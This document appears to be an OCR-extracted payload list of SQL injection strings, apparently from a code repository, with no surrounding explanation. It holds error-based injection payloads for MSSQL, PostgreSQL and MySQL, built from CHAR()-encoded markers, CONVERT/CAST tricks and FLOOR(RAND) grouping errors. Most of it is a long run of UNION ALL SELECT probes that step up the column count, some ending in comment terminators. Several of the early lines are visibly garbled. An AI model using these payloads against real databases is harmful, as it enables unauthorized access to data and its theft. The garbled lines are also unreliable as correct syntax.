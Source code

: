            AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
           AND 5650=CONVERT(INT,(SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (5650=5650) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
           AND 3516=CAST((CHR(113)||CHR(106)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (3516=3516) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(106)||CHR(107)||CHR(113)) AS NUMERIC)
           AND (SELECT 4523 FROM(SELECT COUNT(*),CONCAT(0x716a7a6a71,(SELECT (ELT(4523=4523,1))),0x71706a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
           UNION ALL SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+CHAR(110)+CHAR(106)+CHAR(99)+CHAR(73)+CHAR(66)+CHAR(109)+CHAR(119)+CHAR(81)+CHAR(108)+CHAR(88)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113),NULL-- 

      UNION ALL SELECT 'INJ'||'ECT'||'XXX'
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
      UNION ALL SELECT 'INJ'||'ECT'||'XXX'-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6-- 